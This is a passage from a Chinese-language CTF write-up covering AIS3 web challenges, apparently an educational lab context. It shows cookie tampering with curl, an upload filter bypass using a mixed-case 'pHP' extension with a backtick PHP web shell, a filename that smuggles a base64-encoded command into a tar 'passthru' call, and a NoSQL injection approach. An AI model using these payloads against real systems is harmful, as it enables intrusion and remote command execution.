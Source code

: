 3. 需要成為 `bear poker`，因此將 Cookie 的 `human` 設成 `bear poker`，再 poke 一次就拿到 flag。

   ```bash
   $ curl http://chals1.ais3.org:8987/bear/499
   Hello human, you need to be a "bear poker" to poke the SECRET BEAR.
   $ curl http://chals1.ais3.org:8987/poke -H 'Cookie: human=bear poker' -d 'bear _id=499' -H 'Content-Type: application/x-www-form-urlencoded'
   <script>alert(`AIS3{y0u_P0l<3_7h3_Bear_H@rdLy><}`); location='/'</script>
   ```

**Flag:** `AIS3{y0u_P0l<3_7h3_Bear_H@rdLy><}`

### Simple File Uploader

1. 不能上傳 `php`, `php2`, `php3`, `php4`, `php5`, `php6`, `phar`, `phtm`，可以用 `pHP` bypass 檢查。
2. Ban 掉一堆危險 function，可以用 \`\`\` 執行 shell command 讀取 flag。

   ```php
   <?php
   echo(`/rUn_M3_t0_9et_fL4g`);
   ?>
   ```

**Flag:** 忘了留...

### Tari Tari

1. 上傳 `trash.txt` 後，網頁提供的下載網址為 `http://chals1.ais3.org:9453/download.php?file=MjY1MDEwZmI2MDg2NGU1MGFjZTg5Y2RkYjE4ZmQxZjIudGFyLmd6&name=trash.txt.tar.gz`。把 `file` base64 decode 得到 `265010fb60864e50ace89cddb18fd1f2.tar.gz`，由此猜測 `file` 可以讀取任意檔案。
2. 讀取 `index.php`，發現其使用 `passthru` 執行 shell command，而 `$filename` 為使用者可控，因此可以 RCE。

   ```php
   $filename = $file['name'];
   $path = bin2hex(random_bytes(16)) . ".tar.gz";
   $source = substr($file['tmp_name'], 1);
   $destination = "./files/$path";
   passthru("tar czf '$destination' --transform='s|$source|$filename|' --directory='/tmp' '/$source'", $return);
   ```

3. 上傳檔案即可讀到 flag。

   ```bash
   $ echo abc >  "'|| echo $(echo -n cat /y000000_i_am_the_f14GGG.txt | base64) | base64 -d | bash;#"
   $ ls
   total 32K
   -rw-r--r-- 1 ice1187 ice1187    0 May 15 18:16 ''\''|| echo Y2F0IC95MDAwMDAwX2lfYW1fdGhlX2YxNEdHRy50eHQ= | base64 -d | bash;#'
   ```

**Flag:** `AIS3{test_flag (to be changed)}` (這個 flag 有夠迷惑...)

### The Best Login UI

1. `bodyParser.urlencoded` 中設定 `extended = true`，表示 [HTTP 傳入的參數會被當作 object](https://www.npmjs.com/package/body-parser#extended)，而非 string。再加上使用 MongoDB，因此可以嘗試 NoSQL injection。
   <img width="556" alt="the-best-login-ui-extended" src="https://user-images.githubusercontent.com/38059464/176656006-0c26cfd0-bfbc-4bda-8651-2e4b81e21344.png">
2. 確認可以做 NoSQL injection ([MongoDB query syntax](https://www.mongodb.com/docs/manual/reference/operator/query/))。
   <img width="654" alt="the-best-login-ui-nosql-injection" src="https://user-images.githubusercontent.com/38059464/176657306-5a465ed2-8004-480b-8546-3b3c0a6f68eb.png">
3. 使用 [`$regex`](https://www.mongodb.com/docs/manual/reference/operator/query/regex/#mongodb-query-op.-regex) 把 flag 爆出來，當時寫的 script 超醜就不貼了...。
